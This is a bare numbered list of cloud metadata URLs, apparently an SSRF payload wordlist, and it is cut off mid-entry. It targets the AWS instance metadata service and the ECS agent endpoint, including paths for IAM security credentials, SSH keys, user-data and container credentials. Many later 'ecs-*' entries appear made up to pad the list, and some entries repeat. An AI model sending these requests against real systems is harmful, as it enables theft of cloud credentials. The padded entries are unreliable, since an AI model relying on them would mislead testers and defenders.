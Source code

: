 



1. `http://169.254.169.254/latest/meta-data/`
2. `http://169.254.169.254/latest/meta-data/ami-id`
3. `http://169.254.169.254/latest/meta-data/reservation-id`
4. `http://169.254.169.254/latest/meta-data/hostname`
5. `http://169.254.169.254/latest/meta-data/public-keys/`
6. `http://169.254.169.254/latest/meta-data/public-keys/0/openssh-key`
7. `http://169.254.169.254/latest/meta-data/security-groups`
8. `http://169.254.169.254/latest/meta-data/iam/`
9. `http://169.254.169.254/latest/meta-data/iam/security-credentials/`
10. `http://169.254.169.254/latest/meta-data/iam/security-credentials/[ROLE_NAME]`
11. `http://169.254.169.254/latest/meta-data/mac`
12. `http://169.254.169.254/latest/meta-data/network/`
13. `http://169.254.169.254/latest/meta-data/network/interfaces/`
14. `http://169.254.169.254/latest/meta-data/network/interfaces/macs/`
15. `http://169.254.169.254/latest/meta-data/network/interfaces/macs/[MAC]/`
16. `http://169.254.169.254/latest/meta-data/network/interfaces/macs/[MAC]/vpc-id`
17. `http://169.254.169.254/latest/meta-data/placement/`
18. `http://169.254.169.254/latest/meta-data/placement/availability-zone`
19. `http://169.254.169.254/latest/meta-data/placement/region`
20. `http://169.254.169.254/latest/meta-data/services/`
21. `http://169.254.169.254/latest/meta-data/services/partition`
22. `http://169.254.169.254/latest/meta-data/instance-action`
23. `http://169.254.169.254/latest/meta-data/instance-id`
24. `http://169.254.169.254/latest/meta-data/instance-type`
25. `http://169.254.169.254/latest/meta-data/local-ipv4`
26. `http://169.254.169.254/latest/meta-data/local-hostname`
27. `http://169.254.169.254/latest/meta-data/profile`
28. `http://169.254.169.254/latest/meta-data/public-ipv4`
29. `http://169.254.169.254/latest/meta-data/reservation-id`
30. `http://169.254.169.254/latest/meta-data/security-groups`
31. `http://169.254.169.254/latest/user-data`
32. `http://169.254.169.254/latest/dynamic/instance-identity/`
33. `http://169.254.169.254/latest/dynamic/instance-identity/document`
34. `http://169.254.169.254/latest/dynamic/instance-identity/pkcs7`
35. `http://169.254.169.254/latest/dynamic/instance-identity/signature`
36. `http://169.254.169.254/latest/dynamic/instance-identity/rsa2048`
37. `http://169.254.170.2/v1/metadata`
38. `http://169.254.170.2/v1/tasks`
39. `http://169.254.170.2/v1/stats`
40. `http://169.254.170.2/v1/container-stats`
41. `http://169.254.170.2/v1/containers`
42. `http://169.254.170.2/v1/credentials?id=`
43. `http://169.254.170.2/v1/docker`
44. `http://169.254.170.2/v1/docker-endpoints`
45. `http://169.254.170.2/v1/docker-ids`
46. `http://169.254.170.2/v1/docker-ips`
47. `http://169.254.170.2/v1/docker-names`
48. `http://169.254.170.2/v1/docker-ports`
49. `http://169.254.170.2/v1/dockerenv`
50. `http://169.254.170.2/v1/dockercfg`
51. `http://169.254.170.2/v1/ecs-agent`

Continuando com a lista:

52. `http://169.254.170.2/v1/ecs-tasks`
53. `http://169.254.170.2/v1/ecs-services`
54. `http://169.254.170.2/v1/ecs-environment`
55. `http://169.254.170.2/v1/ecs-config`
56. `http://169.254.170.2/v1/ecs-clusters`
57. `http://169.254.170.2/v1/ecs-containers`
58. `http://169.254.170.2/v1/ecs-health`
59. `http://169.254.170.2/v1/ecs-metadata`
60. `http://169.254.170.2/v1/ecs-resources`
61. `http://169.254.170.2/v1/ecs-scheduler`
62. `http://169.254.170.2/v1/ecs-stats`
63. `http://169.254.170.2/v1/ecs-task-definitions`
64. `http://169.254.170.2/v1/ecs-version`
65. `http://169.254.170.2/v1/ecs-volumes`
66. `http://169.254.170.2/v1/ecs-workloads`
67. `http://169.254.170.2/v1/ecs-endpoints`
68. `http://169.254.170.2/v1/ecs-credentials`
69. `http://169.254.170.2/v1/ecs-agent-info`
70. `http://169.254.170.2/v1/ecs-agent-config`
71. `http://169.254.170.2/v1/ecs-container-stats`
72. `http://169.254.170.2/v1/ecs-container-metadata`
73. `http://169.254.170.2/v1/ecs-container-endpoints`
74. `http://169.254.170.2/v1/ecs-container-environment`
75. `http://169.254.170.2/v1/ecs-container-logs`
76. `http://169.254.
